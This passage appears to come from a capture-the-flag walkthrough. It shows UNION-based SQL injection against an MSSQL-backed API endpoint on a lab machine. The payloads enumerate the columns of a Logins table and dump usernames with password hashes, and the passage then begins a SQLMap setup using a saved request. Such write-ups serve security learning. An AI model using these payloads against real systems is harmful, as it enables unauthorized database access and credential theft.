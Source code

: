 `Logins` seem quite interesting! Let us enumerate which columns the `Logins` table has by using this payload:

```sql 
a' UNION ALL SELECT 1,name,3,4,5 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Logins')--
```

We get following columns for the table logins:

```json
[
    {"id":1,"name":"id","position":"3","email":"4","src":"5"},
    {"id":1,"name":"password","position":"3","email":"4","src":"5"},
    {"id":1,"name":"username","position":"3","email":"4","src":"5"}
]
```

Now we can finally dump this table using this payload:

```sql
a' UNION ALL SELECT id,username,password,4,5 FROM Hub_DB..Logins--
```

We receive three different entries:

```sql
[
{"id":1,"name":"sbauer","position":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739","email":"4","src":"5"},	{"id":2,"name":"okent","position":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa","email":"4","src":"5"},	{"id":3,"name":"ckane","position":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813","email":"4","src":"5"},
[...]
]
```

We have now successfully dumped the entire table with usernames and passwords.

#### SQLMap

Before we start cracking the hashes let us take a quick look how we could have done the same thing using SQLMap. We can use SQLMap's charunicodeescape tamper script to let SQLMap do the unicode-escaping for us. We can save the request we made to the API to a file and use it with SQLMap.

```bash
root@darkness:~# cat api.req 
POST /api/getColleagues HTTP/1.1
Host: 10.10.10.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.179/
Content-Type: application/json;charset=utf-8
Content-Length: 12
Connection: close

{"name":"*"}
```
